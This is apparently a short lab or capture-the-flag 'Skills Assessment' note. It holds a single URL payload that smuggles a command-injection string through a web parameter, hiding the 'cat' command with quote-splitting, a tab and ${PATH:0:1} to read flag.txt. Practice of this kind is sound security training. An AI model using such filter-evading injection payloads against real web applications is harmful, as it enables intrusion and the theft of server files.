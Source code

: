 # Skills Assessment

Payload: <br>
`/index.php?to=tmp%26c%27a%27t%09${PATH:0:1}flag.txt&from=787113764.txt&finish=1&move=1`

